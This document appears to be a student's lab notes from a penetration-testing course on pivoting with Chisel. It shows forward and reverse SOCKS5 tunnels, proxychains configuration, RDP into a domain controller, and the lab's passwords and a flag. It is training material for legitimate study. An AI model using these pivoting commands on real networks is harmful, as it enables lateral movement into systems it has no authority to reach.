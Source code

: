 # SOCKS5 Tunneling with Chisel

Chisel is a TCP/UDP-based tunneling tool written in Go that uses HTTP to transport data that is secured using SSH.

## Setting Up & Using Chisel

1) Cloning Chisel

git clone https://github.com/jpillora/chisel.git

2) Building the Chisel Binary

cd chisel
go build

3) Transferring Chisel Binary to Pivot Host

scp chisel ubuntu@$TARGET:~/

4) Running the Chisel Server on the Pivot Host

cd chisel
./chisel server -v -p 1234 --socks5

2022/05/05 18:16:25 server: Fingerprint Viry7WRyvJIOPveDzSI2piuIvtu9QehWw9TzA3zspac=
2022/05/05 18:16:25 server: Listening on http://0.0.0.0:1234

5) Connecting to the Chisel Server

On our attack host :
./chisel client -v $TARGET:1234 socks

6) Editing & Confirming proxychains.conf

On our attack host :
tail -f /etc/proxychains.conf
\# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080

7) Pivoting to the DC

proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123

## Chisel Reverse Pivot

If firewall rules restrict inbound connections to our compromised target

1) Starting the Chisel Server on our Attack Host

sudo ./chisel server --reverse -v -p 1234 --socks5

2) Connecting the Chisel Client to our Attack Host

./chisel client -v 10.10.14.17:1234 R:socks

3) Editing & Confirming proxychains.conf

On our attack host :
tail -f /etc/proxychains.conf 
socks5 127.0.0.1 1080 

4) Pivoting to the DC

proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123

## LAB

git clone https://github.com/jpillora/chisel.git

cd chisel
go build

scp chisel ubuntu@$TARGET:~/
HTB_@cademy_stdnt!

ssh ubuntu@$TARGET
HTB_@cademy_stdnt!

./chisel server -v -p 1234 --socks5

cd chisel
./chisel client -v $TARGET:1234 socks

2023/11/26 07:39:45 client: tun: proxy#127.0.0.1:1080=>socks: Listening

sudo vi /etc/proxychains.conf
MAJ+G
\# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080

proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123

type C:\Users\victor\Documents\flag.txt.txt
Th3$eTunne1$@rent8oring!

proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123

cd chisel
go build